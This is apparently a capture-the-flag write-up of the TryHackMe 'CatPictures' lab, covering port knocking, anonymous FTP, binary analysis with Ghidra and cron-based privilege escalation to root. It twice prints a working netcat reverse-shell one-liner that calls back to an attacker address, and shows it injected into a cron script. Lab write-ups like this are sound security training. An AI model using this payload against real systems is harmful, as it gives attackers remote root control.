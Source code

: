 ```yaml
---
title: CatPictures TryHackMe Writeup
tags: [writeup,cron,docker,phpbb]
style: border
color: success
description: ""
---
```


![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/1.jpeg)

## Scanning
We use **nmap** to scan all ports, along with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/2.png)

## Enumeration
We access the web service, list a forum under the phpBB CMS.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/3.png)

We review the site, we find a post where they mention "knock" and a sequence, this already makes us think that there must be some other hidden service and that we will have to make use of port knock.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/4.png)

We make use of the **knock** tool of this [github](https://github.com/grongor/knock), we execute the tool following the port order.

We run **nmap** again and list a new port associated with the FTP service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/5.png)

We connect through the **FTP service** using *"anonymous"* credentials, list a file *"note.txt"*, download, read content and it gives us credentials and instructions on where to use them.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/6.png)


## Exploitation
We use **netcat** to connect to the service, specify the password and get a connection to the machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/7.png)

We know the user thanks to the note that was in the **FTP service**, so we read the files in his folder and we see that to read it we will need to have an interactive shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/8.png)

Seeing that I could hardly execute any commands, I listed the whole list of available binaries, so I tried to invoke another new shell with this surprise:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/9.png)

#### Reverse shell with root

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/10.png)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

Now it lets us run the binary, but it seems that something is wrong, we download the binary to our Kali, we examine it with **Ghidra** and we enumerate the *SSH password*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/11.png)

Now we execute the binary with the password and we will obtain the *"id_rsa"* file to be able to access by **SSH**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/12.png)

We connect via SSH, we are as root on the Docker machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/13.png)

#### Read flag.txt

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/14.png)

## Privilege Escalation

We read the file *".bash_history"*, we find a log of executions in the system, thanks to it we list a script called *"clean.sh"* that runs in **crontab** (yes, the same one that deleted the files in the folder */tmp/* ;) ).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/15.png)

We transfer **pspy64** with **curl** (wget didn't work for me), give it permissions and run it to know the execution time of the *crontab script*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/16.png)

We add our payload to obtain a *reverse shell* and put a **netcat** listening.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/17.png)

We wait a few minutes and we will be able to read the *root flag*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/CatPictures/18.png)




